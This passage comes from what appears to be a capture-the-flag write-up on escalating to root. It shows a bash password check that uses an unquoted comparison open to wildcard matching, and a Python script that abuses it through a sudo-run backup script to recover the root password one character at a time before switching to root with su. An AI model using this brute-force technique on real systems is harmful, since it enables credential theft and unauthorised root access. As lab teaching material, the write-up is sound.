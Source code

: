 Looking at the code there is a weakness in the part that checks if our password is valid. This if statement allows the usage of wildcards this makes it possible for us to brute force the password

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```

Using the following python script will run through all the potential options and output each time the password was valid

```python 
import subprocess
import string

# Create a list of characters to test (letters and digits)
char = list(string.ascii_letters + string.digits)

# Initialize the password as an empty string
password = ""

# Use a while loop to keep guessing the password
while True:
    for i in char:
        command = f"echo '{password}{i}*' | sudo /opt/scripts/mysql-backup.sh"
        result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, text=True).stdout
        if 'Password confirmed!' in result:
            password = password + i
            print("The password is:", password)
```

After running the script for a few minutes we end up with the following password

![Root password](/assets/img/Codify/Codify_09.png)

Next we could use this password to log in as root using su

```
su root
```

![Root access](/assets/img/Codify/Codify_10.png)
